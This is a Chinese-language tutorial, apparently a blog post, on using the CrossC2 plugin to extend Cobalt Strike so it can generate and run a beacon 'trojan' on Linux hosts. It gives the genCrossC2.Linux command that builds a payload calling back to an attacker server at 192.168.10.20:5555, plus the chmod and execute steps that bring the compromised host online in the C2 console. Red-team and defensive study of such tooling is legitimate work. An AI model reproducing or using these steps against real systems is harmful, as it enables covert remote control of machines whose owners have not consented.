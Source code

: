 # 1. 前言

默认情况下CS是不支持上线Linux的，只支持上线Windows，但是再事情的渗透测试过程中，一般企业重用的业务通常都是运行再Linux上的，这就会导致原版的CS无法上线Linux，而这时候可以使用crossC2插件来解决这个问题。

# 2. 下载插件

crossC2主要面向企业自身及红队人员的安全评估框架，支持CobaltStrike对其他平台(Linux/MacOS/...)的安全评估，支持自定义模块，及包含一些常用的渗透模块。

[crossC2插件](https://github.com/gloxec/CrossC2)

这里我们需要下载两个文件，主要其中Linux与MacOS是需要根据自己的服务器系统来判断，通常来说都是使用Linux系统。

![image-20230612133715182](assets/UbAGy8dMcxV5SH1.png)

# 3. CS配置

这里我们首先先启动CS，这一步想必应该不需要解释吧！

## 3.1. 客户端配置

### 3.1.1. 导入插件文件

将下载好的后缀为.cna文件导入进CS中。

![image-20230612134028265](assets/Ij62b7mKLDNlUqe.png)

### 3.1.2. 配置监听

由于插件只支持HTTPS与TCP，所以这里我们选择的监听就选择HTTPS吧。

![image-20230612134209790](assets/EzdhiDBbvmYntUu.png)

## 3.2. 服务端配置

### 3.2.1. 导入配置文件

这里将下载下来的结尾是.Linux的文件导入到服务器中，注意需要导入到CS目录下，并赋予执行权限。

```
chmod +x genCrossC2.Linux
```

![image-20230612134343754](assets/QOEP1giWv9RUGrk.png)

这里最好的将CS客户端重启一次。

## 3.3. 生成木马

当在之前加载插件后，就会出现这个CroseC2了，只不过建议，当将.Linux文件上传到服务端并添加执行权限后，最好是重启以下CS客户端。

这里我们选择HTTPS的选项。

![image-20230612134521051](assets/fB4ZWjLqhbRJ3pt.png)

这里相关的内容看图片上的文字，生成情况，会在会话事件日志中出现，确实这个点击生成后，并会直接像CS一样弹窗出来，而且是需要你去执行命令去生成。

所以一般情况下可以不使用这个界面去生成，可以直接使用命令。

```
./genCrossC2.Linux 192.168.10.20 5555 ./.cobaltstrike.beacon_keys null Linux x64 t_cc2.out

这个命令其实仔细看是能够看出来的的前面的是我们之前上传到服务端的.Linux文件，后面跟着服务器地址及监听端口。
后面./.cobaltstrike.beacon_keys 输入ls -l 能够看到隐藏文件，后面的想必不用介绍了吧。
```

当然如果觉得命令麻烦，那么就是直接在下面的图片中点击生成，然后将命令复制到Linux中进行执行，因为不一定能够执行成功！！

![image-20230612134922296](assets/5I7P2HmeEOxz1ds.png)

### 3.3.1. 修改cna文件

当你点击生成后会发现，命令无法执行？这是由于在cna文件中的配置并没有修改，看下图，还是mac的。这时候我们就需要去修改cna文件。

![image-20230612135457908](assets/oUckaP1vf8yCbeW.png)

找到cna文件，也就是之前加载的文件，修改里面的地址，地址是你cs文件夹，下面的是你的系统文件，也就是刚刚下载的.Linux文件名字，其它的是不需要修改的。

修改后，要将CS客户端重启哦。

![image-20230612135615833](assets/voHgBzxAZQpVuRT.png)

### 3.3.2. 修改后效果

可以看到前后的对比，前面有相应的路径了。

![image-20230612135714568](assets/UA8K5fi2k1mCawZ.png)

然后将命令输入到Linux中进行执行，当然我的建议是在cs目录下执行，去除前面的绝对路径。

```
./genCrossC2.Linux 192.168.10.20 5555 ./.cobaltstrike.beacon_keys null Linux x64 t_cc2.out
```

![image-20230612135920642](assets/rIVixEX5gLf9otR.png)

## 3.4. 执行木马

将木马上传到Linux系统中，然后基于执行权限，并且执行木马，从CS客户端可以看到成功上线。

```
chmod +x t_cc2.out
./t_cc2.out
```

![image-20230612140028939](assets/uPtCrgGk37fRZ9a.png)